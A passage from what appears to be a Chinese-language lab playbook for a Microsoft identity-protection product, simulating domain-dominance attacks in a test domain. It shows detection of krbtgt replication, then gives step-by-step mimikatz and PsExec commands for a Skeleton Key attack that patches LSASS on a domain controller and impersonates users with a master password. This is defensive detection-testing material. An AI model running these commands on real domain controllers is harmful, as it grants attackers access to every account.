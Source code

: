 我們已將 "krbtgt" 帳戶資訊複寫至：`c:\\temp\\ContosoDC_krbtgt-export.txt`

![透過 mimikatz 的惡意複寫](media/playbook-dominance-maliciousrep_mimikatz.png)

#### <a name="malicious-replication-detection-in-product-short"></a>[!INCLUDE [Product short](includes/product-short.md)] 中的惡意複寫偵測

使用[!INCLUDE [Product short](includes/product-short.md)] 入口網站確認 SOC 現在已經知道我們從 VictimPC 模擬的惡意複寫。

![由[!INCLUDE [Product short](includes/product-short.md)] 偵測到的惡意複寫](media/playbook-dominance-maliciousrep_detected.png)

### <a name="skeleton-key"></a>基本架構金鑰

攻擊者使用的另一個網域支配方法稱為 **基本架構金鑰** 。 使用攻擊者建立的基本架構金鑰，攻擊者可以 *隨時* 偽裝成 *任何使用者* 。 在基本架構金鑰攻擊中，每位使用者仍然可以使用一般密碼，但是他們的每個帳戶也會提供一個主要密碼。 新的主要密碼或基本架構金鑰可對知道這項資訊的任何人開放帳戶的存取權。 在網域控制站上修補 LSASS.exe 處理程序可發動基本架構金鑰攻擊，進而強制使用者透過降級的加密類型進行驗證。

讓我們使用基本架構金鑰查看這種攻擊的運作方式：

1. 使用我們之前所取得的 **SamirA** 認證，將 **mimikatz** 移動到 **ContosoDC** 。 請務必根據 DC 的架構類型 (64 位元與 32 位元)，推送正確的 **mimikatz.exe** 架構。 從 **mimikatz** 資料夾中，執行：

   ```dos
   xcopy mimikatz.exe \\ContosoDC\c$\temp
   ```

1. 在 **mimikatz** 現在已在 DC 上發動的情況下，透過 PsExec 從遠端執行它：

   ```dos
   PsExec.exe \\ContosoDC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "misc::skeleton" ^& "exit")
   ```

1. 您已經成功修補 **ContosoDC** 上的 LSASS 處理程序。

    ![透過 mimikatz 的基本架構金鑰攻擊](media/playbook-dominance-skeletonkey.png)

### <a name="exploiting-the-skeleton-key-patched-lsass"></a>入侵基本架構金鑰修補的 LSASS

在 **VictimPC** 上，開啟命令提示字元 (在 **JeffL** 的內容中)，然後執行下列命令來嘗試變成 RonHD 的內容。

```dos
runas /user:ronhd@contoso.azure "notepad"
```

出現提示時，請故意使用錯誤的密碼。 此動作可證明在執行攻擊之後，這個帳戶 *仍然* 有密碼。

![在基本架構金鑰攻擊之後使用 *錯誤* 密碼 (此方法完全以所述的方式運作)](media/playbook-dominance-skeletonkey_wrong.png)

但是基本架構金鑰會將額外的密碼新增至每個帳戶。 請再次執行 "runas" 命令，但這次使用 "mimikatz" 作為密碼。

```dos
runas /user:ronhd@contoso.azure "notepad"
```

此命令會建立一個在 RonHD 的內容中執行的新處理程序 *notepad* 。 **基本架構金鑰可以針對 _任何_ 帳戶進行，包括服務帳戶和電腦帳戶。**
